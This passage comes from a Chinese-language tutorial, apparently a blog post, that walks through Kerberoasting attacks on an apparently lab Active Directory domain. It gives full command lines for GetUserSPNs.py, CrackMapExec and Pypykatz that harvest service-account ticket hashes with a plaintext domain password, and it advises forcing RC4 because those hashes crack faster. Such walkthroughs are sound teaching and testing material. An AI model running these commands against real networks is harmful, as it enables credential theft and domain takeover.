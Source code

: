 但是，只要拥有一组有效的凭证，我们就依然可以执行 Kerberoasting 攻击，因为它满足执行 Kerberoasting 攻击的第二个条件。

#### **

7.1、GetUserSPNs.py

**

GetUserSPNs.py 是 [Impacket](https://github.com/SecureAuthCorp/impacket) 脚本集合的一个工具，该脚本的妙处在于它不需要我们在受害者机器上建立立足点便可以直接在攻击者机器远程发起 Kerberoasting 攻击。

事实上，在使用此工具进行 Kerberoasting 攻击之前先对 SPN 进行枚举是一种很好的做法：

    GetUserSPNs.py juggernaut.local/intern:'W3lc0met0Th3p4rtY' -dc-ip 172.16.1.5
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741065-1232769344.png)

因为它除了可以提取到可受攻击的服务帐户之外，它还可能提取到服务帐户所属组的相关信息。

> 请注意，服务帐户通常位于域管理员组中，如果能看到该组，然后恰好又破解了密码，那么游戏便可以提前结束了！

现在，我们找到了两个可 kerberoasting 的帐户，接着只需在命令中添加 **\-request** 选项便可以申请/导出 TGS-REP 哈希了：

    GetUserSPNs.py juggernaut.local/intern:'W3lc0met0Th3p4rtY' -dc-ip 172.16.1.5 -request
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172742981-1443261902.png)

#### **

7.2、CrackMapExec

**

**CrackMapExec** 是我们可以用来远程执行 kerberoasting 攻击的另一个工具，执行以下命令即可发起攻击：

    crackmapexec ldap 172.16.1.5 -u 'intern' -p 'W3lc0met0Th3p4rtY!' -d 'juggernaut.local' --kerberoasting service_hashes.txt
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250522172741721-1569523322.png)

可以看到，CrackMapExec 也能够提取服务帐户所属组的信息。

#### **

7.3、Pypykatz

**

**Pypykatz** 是我们可以用来远程执行 kerberoasting 攻击的最后一个工具。

该工具的**优点**在于：可选择我们所申请的服务票据的加密类型。当然这也取决于目标是否已启用 RC4 加密类型，如果 AES 和 RC4 同时启用时，此功能尤其有用，而如果 RC4 被禁用，此功能也将无法工作。

> 注：理想情况下，如果同时启用 AES 和 RC4，我们希望获取 RC4 哈希，因为它更弱，破解速度更快。

该工具的**缺点**在于：抓取服务哈希的过程中可能会出现漏抓的情况，而且命令参数的使用很复杂。例如，在本例中，明明有两个注册 SPN 的服务账户，但它却只能抓取到 backup\_svc 这个服务账户的票据哈希，而漏掉了 sql\_svc 账户的票据哈希。

    pypykatz kerberos spnroast -e 23 'kerberos+password://juggernaut.local\intern:W3lc0met0Th3p4rtY!@172.16.1.5' -l 'ldap+ntlm-password://juggernaut.local\intern:W3lc0met0Th3p4rtY!@172.16.1.5' -o roast_me.txt
    